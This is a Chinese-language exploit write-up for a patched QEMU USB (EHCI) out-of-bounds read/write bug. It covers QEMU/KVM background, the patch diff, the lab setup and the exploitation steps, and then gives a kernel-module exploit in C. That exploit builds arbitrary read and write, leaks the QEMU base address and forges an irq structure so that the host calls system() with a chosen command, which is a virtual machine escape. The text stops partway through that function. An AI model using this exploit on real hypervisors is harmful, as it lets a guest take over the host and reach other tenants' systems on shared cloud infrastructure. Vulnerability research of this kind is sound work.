


# QEMU 

QEMU：是一套由布里斯·贝拉(Fabrice Bellard)编写的模拟处理器的自由软件，它是一个完整的可以单独运行的软件，可以独立模拟出整台计算机，包括CPU，内存，IO设备，通过一个特殊的“重编译器”(TCG)对特定的处理器的二进制代码进行翻译，从而具有了跨平台的通用性。QEMU有两种工作模式：系统模式，可以模拟出整个电脑系统，另一种是用户模式，可以运行不同与当前硬件平台的其他平台上的程序（比如在x86平台上运行跑在ARM平台上的程序）。

不得不说法布里斯·贝拉是位很厉害的天才程序员：1972年生于法国Grenoble,大学就读于巴黎高等综合理工学院，后在国立巴黎高等电信学院攻读。因FFmpeg、QEMU等项目而闻名业内。他也是最快圆周率算法贝拉公式、TCCBOOT和TCC（微型C编译器）等项目的作者。（可以去看看这位大佬的Home Page就知道他有多牛逼：https://bellard.org/ ）

QEMU采用动态二进制翻译技术，客户机的指令不能在物理机上直接执行，需要通过VMM翻译（TCG），再转换成可以在物理机上执行的指令，这通常会产生显著的性能开销，所以QEMU虚拟机用起来是相当慢的，后面就搭配KVM一起用，QEMU提供硬件模拟，KVM提供对CPU、内存等的虚拟化。

QEMU下载地址：https://download.qemu.org/

# KVM

KVM：Kernel-Based Virtual Machine 基于内核的虚拟机，是Linux内核的一个可加载模块，通过调用Linux本身内核功能，实现对CPU的底层虚拟化和内存的虚拟化，使Linux内核成为虚拟化层，需要x86架构的，支持虚拟化功能的硬件支持（比如Intel VT，AMD-V），是一种全虚拟化架构。

KVM 中，虚拟机被实现为常规的 Linux 进程，由标准 Linux 调度程序进行调度；虚机的每个虚拟 CPU 被实现为一个常规的 Linux 线程。这使得 KVM 能够使用 Linux 内核的已有功能。 但是，KVM 本身不执行任何硬件模拟，需要用户空间程序通过 /dev/kvm 接口设置一个客户机虚拟服务器的地址空间，向它提供模拟 I/O，并将它的视频显示映射回宿主的显示屏。这个应用程序是 QEMU。

VM 运行期间，QEMU 会通过 KVM 模块提供的系统调用进入内核，由 KVM 负责将虚拟机置于处理的特殊模式运行。当虚机进行 I/O 操作时，KVM 会从上次系统调用出口处返回 QEMU，由 QEMU 来负责解析和模拟这些设备。   从 QEMU 角度看，也可以说是 QEMU 使用了 KVM 模块的虚拟化功能，为自己的虚机提供了硬件虚拟化加速。除此以外，虚机的配置和创建、虚机运行所依赖的虚拟设备、虚机运行时的用户环境和交互，以及一些虚机的特定技术比如动态迁移，都是 QEMU 自己实现的。

他们的架构图如下（来自oenhan大佬博客）：




# QEMU KVM的使用场景

现在主要用在云平台中，用于创建我们购买的虚拟机，比如阿里云、腾讯云、华为云等。

# 漏洞简介

该漏洞存在于Qemu USB模块，可造成越界读写，进而实现虚拟机逃逸。

```
@@ -129,6 +129,7 @@ void usb_wakeup(USBEndpoint *ep, unsigned int stream)
 static void do_token_setup(USBDevice *s, USBPacket *p)
 {
     int request, value, index;
+    unsigned int setup_len;

     if (p->iov.size != 8) {
         p->status = USB_RET_STALL;
@@ -138,14 +139,15 @@ static void do_token_setup(USBDevice *s, USBPacket *p)
     usb_packet_copy(p, s->setup_buf, p->iov.size);
     s->setup_index = 0;
     p->actual_length = 0;
-    s->setup_len   = (s->setup_buf[7] << 8) | s->setup_buf[6];
-    if (s->setup_len > sizeof(s->data_buf)) {
+    setup_len = (s->setup_buf[7] << 8) | s->setup_buf[6];
+    if (setup_len > sizeof(s->data_buf)) {
         fprintf(stderr,
                 "usb_generic_handle_packet: ctrl buffer too small (%d > %zu)\n",
-                s->setup_len, sizeof(s->data_buf));
+                setup_len, sizeof(s->data_buf));
         p->status = USB_RET_STALL;
         return;
     }
+    s->setup_len = setup_len;
```

根据补丁分析漏洞成因为：

当s->setup_len 获得的值大于sizeof(s->data_buf) 时，返回时没有将s->setup_len的值清零。导致后续在函数do_token_in 或 do_token_out使用s->setup_len时出现越界读写漏洞。

# 漏洞分析环境

宿主机（Host OS）:

```
➜  ~ qemu-system-x86_64 -version
QEMU emulator version 5.0.0 (-dirty)
Copyright (c) 2003-2020 Fabrice Bellard and the QEMU Project developers
➜  ~ uname -a
Linux john-virtual-machine 5.4.52+ #2 SMP Thu Jul 30 16:54:42 CST 2020 x86_64 x86_64 x86_64 GNU/Linux
➜  ~ cat /etc/issue
Linux Mint 19.3 Tricia \n \l
```

客户机(Guest OS)：
```
root@debian:~/exp# uname -a
Linux debian 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1 (2020-01-26) x86_64 GNU/Linux
root@debian:~/exp# cat /etc/issue
Debian GNU/Linux 10 \n \l
```

QEMU编译选项：

```
./configure --target-list=x86_64-softmmu --enable-debug --enable-debug-stack-usage --enable-debug-info --enable-kvm
```

QEMU启动命令：
```
-enable-kvm -m 2048 -smp 2 -monitor stdio -machine q35 -hda /home/john/VM/Linux -usb -device usb-ehci,id=ehci1  -drive if=none,format=raw,id=disk,file=/home/john/VM/usb.img -device usb-storage,drive=disk,bus=ehci1.0,port=2  -net user,hostfwd=tcp::2222-:22 -net nic
```
解释一下这个QEMU启动命令：-enable-kvm表示使用KVM提供的内存虚拟化、CPU虚拟化，加速模拟（accelerator）。-m 2048 表示给 Guest OS 2G的内存，-smp 2表示虚拟机为SMP架构并提供2个CPU，-monitor stdio 表示将QEMU的控制台重定位到终端，-machine q35 表示模拟的是Intel Q35 主板（默认是i440FX + PIIX），-hda /home/john/VM/Linux 表示硬盘。-usb 表示要使用USB设备，-device usb-ehci,id=ehci1 添加一个ehci的USB控制器，id为ehci1（q35默认会创建一个usb ehci，后面会看到），-drive if=none,format=raw,id=disk,file=/home/john/VM/usb.img 设置一个id为disk块后端，-device usb-storage,drive=disk,bus=ehci1.0,port=2 创建一个usb-storage设备，将其关联到块后端disk，并将其加入到 ehci1的0号总线上，连接到ehci的port 2，-net user,hostfwd=tcp::2222-:22 -nei nic 创建一个user模式的网络，并将客户机的22端口映射为宿主机的2222端口，这样可以直接通过 ssh -p 2222 john@127.0.0.1访问


/home/john/VM/usb.img的创建如下：

```
qemu-img create -f raw usb.img 32M
mkfs.ext4 usb.img
```

为了防止EHCI驱动的干扰，最好在客户机中将EHCI驱动给卸载掉：

```shell
rmmod ehci_pci 
rmmod ehci_hcd
```

# USB设备工作模式

系统并不是直接访问USB设备的，而是通过USB控制器(USB Controller)访问的。其为USB设备和主机的接口。

通过分析QEMU，我们也可以知道，要调用do_token_in、do_token_in、do_token_setup触发漏洞必须经过EHCI或UHCI或OHCI控制器。

他们的介绍如下：

- OHCI（Open Host Controller Interface）是支持USB1.1的标准，但它不仅仅是针对USB，还支持其他的一些接口，比如它还支持Apple的火线（Firewire，IEEE 1394）接口。与UHCI相比，OHCI的硬件复杂，硬件做的事情更多，所以实现对应的软件驱动的任务，就相对较简单。主要用于非x86的USB，如扩展卡、嵌入式开发板的USB主控。
- UHCI（Universal Host Controller Interface），是Intel主导的对USB1.0、1.1的接口标准，与OHCI不兼容。UHCI的软件驱动的任务重，需要做得比较复杂，但可以使用较便宜、较简单的硬件的USB控制器。Intel和VIA使用UHCI，而其余的硬件提供商使用OHCI
- EHCI（Enhanced Host Controller Interface），是Intel主导的USB2.0的接口标准。EHCI仅提供USB2.0的高速功能，而依靠UHCI或OHCI来提供对全速（full-speed）或低速（low-speed）设备的支持
- xHCI（eXtensible Host Controller Interface），是最新最火的USB3.0的接口标准，它在速度、节能、虚拟化等方面都比前面3中有了较大的提高。xHCI支持所有种类速度的USB设备（USB 3.0 SuperSpeed, USB 2.0 Low-, Full-, and High-speed, USB 1.1 Low- and Full-speed）。xHCI的目的是为了替换前面3中（UHCI/OHCI/EHCI）。

我们这里以EHCI为例子来编写EXP。

# EHCI在QEMU中的模拟

到一个新环境、新山头，首先要拜访的就是几个占山为王、雄踞一方的结构体。QEMU中模拟EHCI中的几个重要结构体：

```c
typedef struct EHCIqh {
    uint32_t next;                    /* Standard next link pointer */

    /* endpoint characteristics */
    uint32_t epchar;
#define QH_EPCHAR_RL_MASK             0xf0000000
#define QH_EPCHAR_RL_SH               28
#define QH_EPCHAR_C                   (1 << 27)
#define QH_EPCHAR_MPLEN_MASK          0x07FF0000
#define QH_EPCHAR_MPLEN_SH            16
#define QH_EPCHAR_H                   (1 << 15)
#define QH_EPCHAR_DTC                 (1 << 14)
#define QH_EPCHAR_EPS_MASK            0x00003000
#define QH_EPCHAR_EPS_SH              12
#define EHCI_QH_EPS_FULL              0
#define EHCI_QH_EPS_LOW               1
#define EHCI_QH_EPS_HIGH              2
#define EHCI_QH_EPS_RESERVED          3

#define QH_EPCHAR_EP_MASK             0x00000f00
#define QH_EPCHAR_EP_SH               8
#define QH_EPCHAR_I                   (1 << 7)
#define QH_EPCHAR_DEVADDR_MASK        0x0000007f
#define QH_EPCHAR_DEVADDR_SH          0

    /* endpoint capabilities */
    uint32_t epcap;
#define QH_EPCAP_MULT_MASK            0xc0000000
#define QH_EPCAP_MULT_SH              30
#define QH_EPCAP_PORTNUM_MASK         0x3f800000
#define QH_EPCAP_PORTNUM_SH           23
#define QH_EPCAP_HUBADDR_MASK         0x007f0000
#define QH_EPCAP_HUBADDR_SH           16
#define QH_EPCAP_CMASK_MASK           0x0000ff00
#define QH_EPCAP_CMASK_SH             8
#define QH_EPCAP_SMASK_MASK           0x000000ff
#define QH_EPCAP_SMASK_SH             0

    uint32_t current_qtd;             /* Standard next link pointer */
    uint32_t next_qtd;                /* Standard next link pointer */
    uint32_t altnext_qtd;
#define QH_ALTNEXT_NAKCNT_MASK        0x0000001e
#define QH_ALTNEXT_NAKCNT_SH          1

    uint32_t token;                   /* Same as QTD token */
    uint32_t bufptr[5];               /* Standard buffer pointer */
#define BUFPTR_CPROGMASK_MASK         0x000000ff
#define BUFPTR_FRAMETAG_MASK          0x0000001f
#define BUFPTR_SBYTES_MASK            0x00000fe0
#define BUFPTR_SBYTES_SH              5
} EHCIqh;


typedef struct EHCIqtd {
    uint32_t next;                    /* Standard next link pointer */
    uint32_t altnext;                 /* Standard next link pointer */
    uint32_t token;
#define QTD_TOKEN_DTOGGLE             (1 << 31)
#define QTD_TOKEN_TBYTES_MASK         0x7fff0000
#define QTD_TOKEN_TBYTES_SH           16
#define QTD_TOKEN_IOC                 (1 << 15)
#define QTD_TOKEN_CPAGE_MASK          0x00007000
#define QTD_TOKEN_CPAGE_SH            12
#define QTD_TOKEN_CERR_MASK           0x00000c00
#define QTD_TOKEN_CERR_SH             10
#define QTD_TOKEN_PID_MASK            0x00000300
#define QTD_TOKEN_PID_SH              8
#define QTD_TOKEN_ACTIVE              (1 << 7)
#define QTD_TOKEN_HALT                (1 << 6)
#define QTD_TOKEN_DBERR               (1 << 5)
#define QTD_TOKEN_BABBLE              (1 << 4)
#define QTD_TOKEN_XACTERR             (1 << 3)
#define QTD_TOKEN_MISSEDUF            (1 << 2)
#define QTD_TOKEN_SPLITXSTATE         (1 << 1)
#define QTD_TOKEN_PING                (1 << 0)

    uint32_t bufptr[5];               /* Standard buffer pointer */
#define QTD_BUFPTR_MASK               0xfffff000
#define QTD_BUFPTR_SH                 12
} EHCIqtd;


struct USBDevice {
    DeviceState qdev;
    USBPort *port;
    char *port_path;
    char *serial;
    void *opaque;
    uint32_t flags;

    /* Actual connected speed */
    int speed;
    /* Supported speeds, not in info because it may be variable (hostdevs) */
    int speedmask;
    uint8_t addr;
    char product_desc[32];
    int auto_attach;
    bool attached;

    int32_t state;
    uint8_t setup_buf[8];
    uint8_t data_buf[4096];
    int32_t remote_wakeup;
    int32_t setup_state;
    int32_t setup_len;
    int32_t setup_index;

    USBEndpoint ep_ctl;
    USBEndpoint ep_in[USB_MAX_ENDPOINTS];
    USBEndpoint ep_out[USB_MAX_ENDPOINTS];

    QLIST_HEAD(, USBDescString) strings;
    const USBDesc *usb_desc; /* Overrides class usb_desc if not NULL */
    const USBDescDevice *device;

    int configuration;
    int ninterfaces;
    int altsetting[USB_MAX_INTERFACES];
    const USBDescConfig *config;
    const USBDescIface  *ifaces[USB_MAX_INTERFACES];
};
```
我们只关注几个总要的字段(其他的可以参考EHCI spec).

EHCIqh包含这次传输的基本信息.

EHCIqh中的next字段存放下一个 EHCIqh的物理地址。

EHCIqh中的current_qtd字段存放EHCIqtd的地址.

EHCIqtd中的 bufptr指向我们要传送的数据的物理地址，也就是拷贝到USBDevice data_buf或setup_buf中的数据.

我们可以发现EHCIqh能横向连接几个EHCIqh,每个EHCIqh纵向连接几个EHCIqtd.对他们的解析是在QEMU中的ehci_advance_state函数实现的.

EHCI控制器中的传输分两种:周期性传输和异步传输.我们这里以异步传输来编写EXP,所以就只介绍异步传输(周期传输可以参考EHCI spec).

异步传输:将要传输的第一个EHCIqh的地址放在asynclistaddr这个寄存器就可以.

# ehci_advance_state 函数分析

分析ehci_advance_state发现,其实就是一个状态机,他会访问asynclistaddr这个EHCI模拟出来的寄存器,获得EHCIqh的地址,然后横向、纵向遍历EHCIqh、EHCIqtd，然后构造EHCIQueue和EHCIPacket，然后调用ehci_state_execute。

ehci_state_execute在调用我们的漏洞函数。

# 漏洞利用

### 任意写

先构造EHCIqh、EHCIqtd以及EHCIqtd中的bufptr，使得调用do_token_setup函数，将USBDevice中的setup_state字段设置为SETUP_STATE_DATA(不然后面调用或do_toke_out时，不会调用到usb_packet_copy函数达到任意写)，并保证setup_buf[0] == 0.

再构造EHCIqh、EHCIqtd结构，使得调用do_token_setup函数，设置setup_len为USBDevice结构中setup_index相对USBDevice结构中的data_buf的偏移。

再构造EHCIqh、EHCIqtd结构以及EHCIqtd中的bufptr，使得调用do_token_out函数，达到覆盖setup_index为我们想要写入的偏移（注意有个坑：覆盖时，必须要保证USBDevice Struct 中的 setup_state = SETUP_STATE_DATA，Struct setup_len > setup_index）


再构造EHCIqh、EHCIqtd结构以及EHCIqtd中的bufptr为我们想写入的数据，使得调用do_token_out函数，达到任意地址写。

有很多细节没有描述，可以参考EXP或自行调试。

### 任意读

通过分析do_token_in函数，我们发现由于要达到任意地址读，必须要保证setup_state 为 SETUP_STATE_DATA 的前提下，还得保证setup_buf[0] & USB_DIR_IN == true。

所以只能通过任意写来实现任意读：通过将setup_index设置为-8，来重写 setup_buf[0] & USB_DIR_IN == true，以及setup_index为想读取的偏移。

### QEMU基地址获取

参考代码卫士的实现方法：

首先通过任意读，获得USBDevice结构体中USBEndpoint ep_ctl字段中的dev字段，这个就是当前USBDevice的地址。

由于USBDevice 会在 realize 时，调用usb_claim_port，将USBDevice中的port字段设置为指向EHCIState中的ports的地址，所以我们可以获得EHCIState的地址。

然后我们可以获得EHCIState中USBBus中的ops来获得QEMU的基地址，他们的ops会设置为：
```c
 usb_bus_new(&s->bus, sizeof(s->bus), s->companion_enable ?
                &ehci_bus_ops_companion : &ehci_bus_ops_standalone, dev);
```
ehci_bus_ops_companion、ehci_bus_ops_standalone，两个中的一个。

### 任意代码执行

通过设置EHCIState中的irq，指向我们构造的恶意irq，实现任意代码执行。

# EXP

```c
#include <linux/module.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/miscdevice.h>
#include <linux/printk.h>
#include <linux/fs.h>
#include <linux/types.h>
#include <linux/string.h>
#include <linux/slab.h>
#include <linux/uaccess.h>
#include <asm/io.h>
#include <asm/page.h>

typedef struct EHCIqtd {
    uint32_t next;                    /* Standard next link pointer */
    uint32_t altnext;                 /* Standard next link pointer */
    uint32_t token;
#define QTD_TOKEN_DTOGGLE             (1 << 31)
#define QTD_TOKEN_TBYTES_MASK         0x7fff0000
#define QTD_TOKEN_TBYTES_SH           16
#define QTD_TOKEN_IOC                 (1 << 15)
#define QTD_TOKEN_CPAGE_MASK          0x00007000
#define QTD_TOKEN_CPAGE_SH            12
#define QTD_TOKEN_CERR_MASK           0x00000c00
#define QTD_TOKEN_CERR_SH             10
#define QTD_TOKEN_PID_MASK            0x00000300
#define QTD_TOKEN_PID_SH              8
#define QTD_TOKEN_ACTIVE              (1 << 7)
#define QTD_TOKEN_HALT                (1 << 6)
#define QTD_TOKEN_DBERR               (1 << 5)
#define QTD_TOKEN_BABBLE              (1 << 4)
#define QTD_TOKEN_XACTERR             (1 << 3)
#define QTD_TOKEN_MISSEDUF            (1 << 2)
#define QTD_TOKEN_SPLITXSTATE         (1 << 1)
#define QTD_TOKEN_PING                (1 << 0)

    uint32_t bufptr[5];               /* Standard buffer pointer */
#define QTD_BUFPTR_MASK               0xfffff000
#define QTD_BUFPTR_SH                 12
} EHCIqtd;

typedef struct EHCIqh {
    uint32_t next;                    /* Standard next link pointer */

    /* endpoint characteristics */
    uint32_t epchar;
#define QH_EPCHAR_RL_MASK             0xf0000000
#define QH_EPCHAR_RL_SH               28
#define QH_EPCHAR_C                   (1 << 27)
#define QH_EPCHAR_MPLEN_MASK          0x07FF0000
#define QH_EPCHAR_MPLEN_SH            16
#define QH_EPCHAR_H                   (1 << 15)
#define QH_EPCHAR_DTC                 (1 << 14)
#define QH_EPCHAR_EPS_MASK            0x00003000
#define QH_EPCHAR_EPS_SH              12
#define EHCI_QH_EPS_FULL              0
#define EHCI_QH_EPS_LOW               1
#define EHCI_QH_EPS_HIGH              2
#define EHCI_QH_EPS_RESERVED          3

#define QH_EPCHAR_EP_MASK             0x00000f00
#define QH_EPCHAR_EP_SH               8
#define QH_EPCHAR_I                   (1 << 7)
#define QH_EPCHAR_DEVADDR_MASK        0x0000007f
#define QH_EPCHAR_DEVADDR_SH          0

    /* endpoint capabilities */
    uint32_t epcap;
#define QH_EPCAP_MULT_MASK            0xc0000000
#define QH_EPCAP_MULT_SH              30
#define QH_EPCAP_PORTNUM_MASK         0x3f800000
#define QH_EPCAP_PORTNUM_SH           23
#define QH_EPCAP_HUBADDR_MASK         0x007f0000
#define QH_EPCAP_HUBADDR_SH           16
#define QH_EPCAP_CMASK_MASK           0x0000ff00
#define QH_EPCAP_CMASK_SH             8
#define QH_EPCAP_SMASK_MASK           0x000000ff
#define QH_EPCAP_SMASK_SH             0

    uint32_t current_qtd;             /* Standard next link pointer */
    uint32_t next_qtd;                /* Standard next link pointer */
    uint32_t altnext_qtd;
#define QH_ALTNEXT_NAKCNT_MASK        0x0000001e
#define QH_ALTNEXT_NAKCNT_SH          1

    uint32_t token;                   /* Same as QTD token */
    uint32_t bufptr[5];               /* Standard buffer pointer */
#define BUFPTR_CPROGMASK_MASK         0x000000ff
#define BUFPTR_FRAMETAG_MASK          0x0000001f
#define BUFPTR_SBYTES_MASK            0x00000fe0
#define BUFPTR_SBYTES_SH              5
} EHCIqh;

#define get_field(data, field) \
    (((data) & field##_MASK) >> field##_SH)

#define set_field(data, newval, field) do { \
    uint32_t val = *data; \
    val &= ~ field##_MASK; \
    val |= ((newval) << field##_SH) & field##_MASK; \
    *data = val; \
    } while(0)

#define USBCMD_IAAD      (1 << 6)      // Int Asynch Advance Doorbell
#define USBCMD_RUNSTOP   (1 << 0)      // run / Stop
#define USBCMD_ASE       (1 << 5)      // Asynch Schedule Enable
#define USBCMD_HCRESET   (1 << 1)      // HC Reset
#define PORTSC_PRESET        (1 << 8)     // Port Reset
#define PORTSC_PED           (1 << 2)     // Port Enable/Disable

#define DATA_BUF_SIZE (4096*5)
#define SETUP_INDEX_OFFSET (4096+4*3)

#define USB_DIR_OUT			0
#define USB_DIR_IN			0x80

static EHCIqh *qh;
static EHCIqtd *qtd;
static unsigned char *data_buf;
static unsigned long mmio_addr = 0xfebd5000;
static unsigned long mmio_size = 0x1000;
static unsigned long port_idx = 2;
static int companion  = 0;// 1 for ehci_bus_ops_companion,0 for ehci_bus_ops_standalone
static unsigned long ops_standalone_addr = 0x00000000011d0e40 ;//ehci_bus_ops_standalone
static unsigned long ops_companion_addr = 0x00000000011d0e30;//ehci_bus_ops_companion
uint64_t system_call_addr = 0x2c1b20;

static unsigned long original_irq_addr;
static uint32_t irq_offset;

static volatile uint32_t *portsc;
static volatile uint32_t *asynclistaddr;
static volatile uint32_t *usbcmd;
static volatile unsigned char *mmio;


static void reset_hci(void)
{
	memset(qh,0,sizeof(*qh));
	memset(qtd,0,sizeof(*qtd));

	//device reset
	*usbcmd = USBCMD_HCRESET;
	
	//port enable
	*portsc = PORTSC_PRESET;
	*portsc = PORTSC_PED;
	
	qh->next = __pa(qh);
	qh->epchar = QH_EPCHAR_H;
	qh->token = QTD_TOKEN_ACTIVE;
	set_field(&qh->epchar,0,QH_EPCHAR_DEVADDR);
	qh->current_qtd = __pa(qtd);
}

static void run_hci(void)
{
	int i = 0;
	for(i=0;i<5;i++){
		qtd->bufptr[i] = __pa(data_buf+i*4096);
	}
	wmb();
	//qh addr
	*asynclistaddr = __pa(qh);
	//run async
	*usbcmd = USBCMD_RUNSTOP | USBCMD_ASE | USBCMD_IAAD;
	while( ((*usbcmd) & USBCMD_IAAD) );

}

//make USBDevice.setup_state = SETUP_STATE_DATA (through the function do_token_setup)
static void usb_set_state_data(void)
{
	reset_hci();
	
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,2,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_SETUP
	
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,8,QTD_TOKEN_TBYTES);
	//do_token_setup function
	data_buf[0] = 0; 
	data_buf[6] = 1; 
	
	run_hci();
}

//struct USBDevice.setup_len = len
static void usb_set_len(uint32_t len)
{
	reset_hci();
	
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,2,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_SETUP
	
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,8,QTD_TOKEN_TBYTES);
	//do_token_setup function
	data_buf[0] = 0;
	//setup_len
	data_buf[7] = (len >> 8);
	data_buf[6] = (len >> 0);

	run_hci();
}

//override USBDevice Struct setup_index field
static void override_setup_index(uint32_t value,uint32_t size)
{
	
	usb_set_state_data();//s->setup_state = SETUP_STATE_DATA
	usb_set_len(SETUP_INDEX_OFFSET+4);
	
	
	reset_hci();
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,0,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_OUT
	
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,SETUP_INDEX_OFFSET+4,QTD_TOKEN_TBYTES);
	//do_token_setup function
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET-8)) = 2;//make USBDevice Struct setup_state = SETUP_STATE_DATA!!!!!!
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET-4)) = value + size + 8;//make USBDevice Struct setup_len > setup_index!!!!!! +8 make next setup_state = SETUP_STATE_DATA
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET)) = value - (SETUP_INDEX_OFFSET + 4);

	run_hci();
}

static int write_data(uint32_t offset,uint8_t *buf,size_t size)
{
	if(size > (DATA_BUF_SIZE ) || !buf){
		return -1;
	}
	override_setup_index(offset,size);
	
	reset_hci();
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,0,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_OUT
	
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,size,QTD_TOKEN_TBYTES);
	
	memcpy(data_buf,buf,size);
	

	run_hci();//after cpy

	return 0;
}

static int read_data(uint32_t offset,uint8_t *buf,size_t size)
{
	uint8_t *ptr;
	if(size > (DATA_BUF_SIZE  ) || !buf){
		return -1;
	}
	
	ptr = kmalloc(8192,GFP_KERNEL);
	if(!ptr) return -1;
	

	ptr[0] = USB_DIR_IN;
	*(uint32_t*)(ptr+8+SETUP_INDEX_OFFSET-8) = 2;//setup_state
	*(uint32_t*)(ptr+8+SETUP_INDEX_OFFSET-4) = offset+size;//make setup_len > setup_index
	*(uint32_t*)(ptr+8+SETUP_INDEX_OFFSET) = offset - (SETUP_INDEX_OFFSET+4+8);//setup_index
	write_data(-8,ptr,SETUP_INDEX_OFFSET+4+8);//make USBDevice Struct data_buf[0] == USB_DIR_IN
	
	reset_hci();
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,1,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_IN
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,size,QTD_TOKEN_TBYTES);
	
	run_hci();//befor cpy
	memcpy(buf,data_buf,size);
	kfree(ptr);
	return 0;
}


static uint64_t get_usbdevice_addr(void)
{
	/*
	 function:do_token_in
	(gdb) print (int)&s->ep_ctl.dev - (int)s->data_buf 
		$16 = 4132
	 * */
	uint64_t addr = 0;
	
	read_data(4132,(uint8_t*)&addr,8);

	return addr;
}

static uint64_t get_usbdevice_data_buf_addr(void)
{
	/*
	function:do_token_in
	(gdb) p (int)s->data_buf - (int)s
	$4 = 228
	*/
	uint64_t addr = get_usbdevice_addr();
	
	return addr + 228;
}

static uint64_t get_usbport_addr(void)
{
	/*
	 function:do_token_in
	 (gdb) print (int)&s->port - (int)s->data_buf 
		$15 = -100
	 * */
	uint64_t addr = 0;
	
	read_data(-100,(uint8_t*)&addr,8);

	return addr;
}

static uint64_t get_ehcistate_addr(void)
{
	/*function:ehci_advance_state
	(gdb) print (int)ehci->ports - (int)ehci
		$4 = 1344
	(gdb) print sizeof(ehci->ports[1])
		$5 = 72 
	*/
	uint64_t addr = 0;
	addr = get_usbport_addr();
	addr = addr - (1344 + 72 * (port_idx-1));

	return addr;
}

static uint64_t get_ehci_bus_ops_addr(void)
{
	/*
	function:ehci_adance_state
	(gdb) print (int)&ehci->bus.ops - (int)ehci
	$6 = 120 
	*/
	uint64_t addr = 0;

	uint32_t ehci_off = get_ehcistate_addr() - get_usbdevice_data_buf_addr();
	read_data(ehci_off+120,(uint8_t*)&addr,8);
	return addr;
}

static uint64_t get_qemu_base_addr(void)
{
	uint64_t addr = get_ehci_bus_ops_addr();
	if(companion)
		return addr - ops_companion_addr;
	return addr - ops_standalone_addr;
}

static void init(void)
{
	asynclistaddr = (uint32_t*)(mmio + 0x20 + 4*6);
	usbcmd = (uint32_t*)(mmio+0x20);
	portsc = (uint32_t*)(mmio+ 0x64 + 4*(port_idx - 1));
	
	/*
	function:ehci_advance_state
	(gdb) p (int)&ehci->irq - (int)ehci
	$6 = 200
	*/
	irq_offset = get_ehcistate_addr() + 200 - get_usbdevice_data_buf_addr();
	read_data(irq_offset,(uint8_t*)&original_irq_addr,8);//back up original irq addr
	system_call_addr +=get_qemu_base_addr();
}

static void construct_devil_irq(char *pcmd)
{
	/*
	function:ehci_advance_state
	(gdb) print sizeof(*ehci->irq)
	$11 = 64
	(gdb) print (int)(&((struct IRQState*)(0))->handler)
	$12 = 40
	(gdb) print (int)(&((struct IRQState*)(0))->opaque)
	$13 = 48
	*/
	
	
	uint64_t irq_addr = get_usbdevice_data_buf_addr() + 256;
	uint64_t opaque_addr = get_usbdevice_data_buf_addr() + 256 + 64;

	uint64_t *pirq_addr = (uint64_t*)data_buf;
	uint8_t *ptr = data_buf+256;// point to devil irq struct   ,,  256*n
	uint64_t *phandler = (uint64_t*)(ptr+40);
	uint64_t *popaque = (uint64_t*)(ptr+48);
	uint8_t *cmd = (ptr+64);//cmd


	//override_setup_index
	usb_set_state_data();//s->setup_state = SETUP_STATE_DATA
	usb_set_len(SETUP_INDEX_OFFSET+4);
	
	reset_hci();
	memset(data_buf,0,DATA_BUF_SIZE);
	
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,0,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_OUT
	
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,SETUP_INDEX_OFFSET+4,QTD_TOKEN_TBYTES);
	//devil irq
	*pirq_addr = irq_addr;//get_usbdevice_data_buf_addr()+256;
	*phandler = system_call_addr;//system_call_addr;
	*popaque = opaque_addr;//get_usbdevice_data_buf_addr() + 256 + 64;
	strcpy((char*)cmd,pcmd);
